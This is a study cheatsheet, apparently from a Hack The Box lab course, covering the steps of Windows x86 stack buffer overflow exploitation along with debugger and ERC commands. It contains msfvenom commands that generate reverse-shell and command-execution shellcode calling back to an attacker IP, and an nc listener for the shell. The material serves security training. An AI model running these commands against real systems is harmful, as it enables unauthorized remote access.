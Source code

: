 # Stack-Based Buffer Overflows on Windows x86

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[ ]]

### Cheatsheet

#### Buffer Overflow Steps

1. Fuzzing Parameters
2. Controlling EIP
3. Identifying Bad Characters
4. Finding a Return Instruction
5. Jumping to Shellcode

#### Commands

| Command | Description |
| ----- | ----- |
| **General** |
| `xfreerdp /v:<target IP address> /u:htb-student /p:<password>` | RDP to Windows VM |
| `/usr/bin/msf-pattern_create -l 5000` | Create Pattern |
| `/usr/bin/msf-pattern_offset -q 31684630` | Find Pattern Offset |
| `netstat -a \|findstr LISTEN` | List listening ports on a Windows machine |
| `.\nc.exe 127.0.0.1 8888` | Interact with port |
| `msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'` | Generate Local Privesc Shellcode |
| `msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'` | Generate Reverse Shell Shellcode |
| `nc -lvnp 1234` | Listen for reverse shell |
| **x32dbg** |
| `F3` | Open file |
| `alt+A` | Attach to a process |
| `alt+L` | Go to Logs Tab |
| `alt+E` | Go to Symbols Tab |
| `ctrl+f` | Search for instruction |
| `ctrl+b` | Search for pattern |
| `Search For>All Modules>Command` | Search all loaded modules for instruction |
| `Search For>All Modules>Pattern` | Search all loaded modules for pattern |
| **ERC** |
| `ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\` | Configure Working Directory |
| `ERC --pattern c 5000` | Create Pattern |
| `ERC --pattern o 1hF0` | Find Pattern Offset |
| `ERC --bytearray` | Generate All Characters Byte Array |
| `ERC --bytearray -bytes 0x00` | Generate Byte Array excluding certain bytes |
| `ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin` | Compare bytes in memory to a Byte Array file |
| `ERC --ModuleInfo` | List loaded modules and their memory protections |
| **Python** |
| `python -c "print('A'*10000)"` | Print fuzzing payload |
| `python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"` | Write fuzzing payload to a file |
| `breakpoint()` | Add breakpoint to Python exploit |
| `c` | Continue from breakpoint |
